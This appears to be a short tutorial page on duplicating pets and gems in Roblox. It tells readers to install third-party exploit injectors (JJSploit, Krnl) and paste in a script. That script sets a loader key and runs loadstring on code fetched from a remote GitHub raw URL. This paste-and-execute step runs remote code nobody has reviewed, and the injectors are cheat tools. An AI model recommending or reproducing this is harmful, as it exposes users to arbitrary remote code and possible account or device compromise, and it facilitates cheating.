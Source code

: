 --//Tutorial//--
Tutorial How To Use The Dupe Pets/Gems Script On PC/Mobile 2022
 
--//Computer Only //--
1. If You Are On PC Download Roblox Exploit Like JJ-Sploit (https://wearedevs.net/d/JJSploit) or Krnl (https://krnl.ca/).
2. You Have To Copy The Script (Below) And To Paste It Into Your Exploit.
3. Once You Pasted The Script Into Your Exploit, Click Execute Button.
{{SCRIPT}}
_G.Loader_Key = "AidYofftpxYptBa"
loadstring(game:HttpGet("https://raw.githubusercontent.com/ModProgrammMiked/protectedscripts/main/get-script-with-key.lua"))()
